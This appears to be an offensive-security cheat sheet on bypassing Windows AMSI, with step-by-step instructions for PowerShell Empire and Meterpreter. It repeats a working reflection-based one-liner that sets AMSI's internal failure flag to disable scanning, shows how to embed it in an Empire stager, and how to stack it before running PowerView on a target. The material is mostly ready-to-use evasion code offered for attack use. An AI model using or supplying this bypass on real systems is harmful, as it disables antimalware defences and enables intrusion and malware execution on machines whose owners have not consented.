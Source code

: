 # AMSI Bypasses

### AMSI Bypass with Powershell Empire

* This assumes you have access to a powershell prompt on the target machine
* Generate a stager, will look something like this:
* On empire must `set Bypasses None`

```
powershell -noP -sta -w 1 -enc  SQBmACgAJABQAFMAVgBlAHIAcwBpAG8AbgBUAGEAYgBsAGUALgBQAFMAVgBlAHIAcwBpAG8AbgAuAE0AYQBqAG8AcgAgAC0
--snip--
```

* Take out the powershell so it is only base64 and decode, will look something like this

```
If($PSVersionTable.PSVersion.Major -ge 3){};[System.Net.ServicePointManager]::
--snip--
```

* Notice the `If($PSVersionTable.PSVersion.Major -ge 3){};`
* Take the AMSI Bypass below and input it in between `{ }` in the empire payload&#x20;

```
$s = [Ref].Assembly.GetTypes();ForEach($b in $s) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true);
```

* Save off to a file locally `check.ps1`&#x20;
* Paste contents into powershell prompt&#x20;

#### MSF Meterpreter way

* ```
  go to meterpreter and run:
  load powershell
  powershell_import /path/to/file/created.ps1
  ```

### AMSI Bypass without Additional Payload&#x20;

* Can generate many AMSI Bypassess on https://amsi.fail&#x20;
* Simply paste into powershell prompt.
* If successful AMSI is patched and the rest of your session will not be scanned by AMSI

### AMSI Bypass stacking with Powershell

* Can do an session AMSI bypass by pasting command in powershell prompt&#x20;

```
$s = [Ref].Assembly.GetTypes();ForEach($b in $s) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true); 
```

* Or you can also stack it with a specific command

```
$s = [Ref].Assembly.GetTypes();ForEach($b in $s) {if ($b.Name -like "*iUtils") {$c = $b}};$d = $c.GetFields('NonPublic,Static');ForEach($e in $d) {if ($e.Name -like "*Failed") {$f = $e}};$f.SetValue($null,$true); .\PowerView.ps1 
```
